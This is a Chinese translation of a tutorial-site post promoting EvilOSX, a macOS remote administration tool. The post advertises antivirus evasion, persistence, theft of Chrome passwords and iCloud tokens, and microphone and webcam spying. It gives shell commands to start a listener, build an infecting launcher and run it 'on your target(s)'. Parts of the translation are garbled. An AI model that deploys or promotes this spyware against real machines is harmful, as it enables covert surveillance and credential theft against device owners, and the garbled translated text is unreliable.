


# Evil OSX——MAC OS/OS X 的邪恶远程管理工具

> 原文：<https://kalilinuxtutorials.com/evilosx-remote-administration-tool/>

**EvilOSX** 是一款用于 MacOS / OS X 的邪恶远程管理工具，具有以下功能，如模拟终端实例、简单的可扩展模块系统、无 bot 依赖、未被反病毒检测、持久、GUI 和 CLI 支持、检索 Chrome 密码、检索 iCloud 令牌和联系人、检索/监控剪贴板、检索浏览器历史记录、通过 iTunes 为 iCloud 密码费西合唱团、iTunes (iOS)备份枚举、录制麦克风、使用网络摄像头拍摄桌面截图或图片，以及尝试通过本地权限升级获取 root 权限。

**也可以理解为[auto scack-hash cat 包装器，帮助自动化破解过程](https://kalilinuxtutorials.com/autocrack-hashcat-wrapper-cracking/)**

## **如何使用 EvilOSX**

### **普通用户**

*   **服务器**端要求 python3 运行。
*   **bot** 端是用已经安装在 macOS / OS X 上的 python2 编写的。
*   安装 python3 后，打开一个终端并键入以下内容:

```
# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Install dependencies required by the server
$ sudo pip3 install -r requirements.txt

# Go into the repository
$ cd EvilOSX

# Start listening for connections
$ python3 start.py

# Lastly, run the built launcher (see the builder tab) on your target(s)
```

**警告:**因为有效负载是为目标系统创建的(由服务器自动创建)，所以当任何机器人第一次连接时，服务器必须正在运行。

### **高级用户**

对于那些想通过 SSH 使用它的人，还有一个命令行界面:

```
# Create a launcher to infect your target(s)
$ python3 builder.py

# Start listening for connections
$ python3 start.py --cli --port 1337

# Lastly, run the built launcher on your target(s)
```

## **截图**

 

[](https://github.com/Marten4n6/EvilOSX)